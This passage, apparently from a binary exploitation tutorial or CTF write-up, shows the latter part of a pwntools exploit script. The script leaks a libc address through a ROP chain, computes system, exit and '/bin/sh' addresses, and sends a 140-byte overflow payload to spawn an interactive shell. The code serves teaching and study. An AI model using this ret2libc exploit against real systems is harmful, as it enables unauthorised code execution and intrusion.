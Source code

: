 ```

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    p.clean()
    
    # Calculate libc base
    libc_base = leak - offset_puts
    log.info("libc base: 0x%x" % libc_base)

    # Stage 2
    
    # Calculate offsets
    system_addr = libc_base + offset_system
    exit_addr = libc_base  + offset_exit
    binsh_addr = libc_base + offset_str_bin_sh

    log.info("system is at: 0x%x" % system_addr)
    log.info("/bin/sh is at: 0x%x" % binsh_addr)
    log.info("exit is at: 0x%x" % exit_addr)

    # Build 2nd payload
    payload2  =  "A"*140
    ropchain2 =  p32(system_addr)
    ropchain2 += p32(exit_addr)
    # Optional: Fix disallowed character by scanf by using p32(binsh_addr+5)
    #           Then you'll execute system("sh")
    ropchain2 += p32(binsh_addr) 

    payload2 = payload2 + ropchain2
    p.sendline(payload2)

    log.success("Here comes the shell!")

    p.clean()
    p.interactive()

if __name__ == "__main__":
    main()

```

                    
                    <p>
                      When running this exploit we will successfully spawn a shell:
                    </p>
                    